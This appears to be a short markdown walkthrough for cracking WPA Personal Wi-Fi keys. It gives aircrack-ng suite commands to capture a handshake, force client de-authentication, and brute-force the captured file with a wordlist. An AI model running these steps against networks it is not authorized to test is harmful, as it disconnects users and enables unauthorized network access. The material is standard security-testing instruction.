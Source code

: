 ### Introduction
---
To attack WPA Personal, we must have an existing client connected to the AP. We will then attempt the capture a WPA 4-way handshake between the client and the AP by de-authenticating the client, and sniff the packets when it attempts to reconnect to the AP.


### Attack Steps
---
##### Step 1. Capturing Handshakes:
Upon located our targeted AP, we can capture packets from the AP:
```sh
sudo airodump-ng --channel <channel no.> -w <output file> --essid <AP essid> --bssid <AP bssid> wlan0mon
```
- Keep this running in the background.
- If a WPA handshake packet is captured, it will print out a notification on the top-right corner.

##### Step 2. De-authenticate the client from the AP:
Next, we de-auth a connected client from the AP and wait for it to reconnect.
```sh
sudo aireplay-ng -0 4 -a <AP bssid> -c <Target Client bssid> wlan0mon
```
- Try omitting the `-c` to run broadcast de-auth if the attack is not working.
- If the attack is successful, `airodump-ng` should print out a notification on the top-right corner.
- If 802.11w is used, unencrypted de-auth will not be accepted. We can only wait for a client to connect.


##### Step 3. Cracking WPA Key:
Lastly, we use aircrack-ng (or any hash cracking tools) to brute force the output `.cap` file from `airodump-ng` to obtain the network key.
``` sh
aircrack-ng <.cap file> -w <wordlist>
```

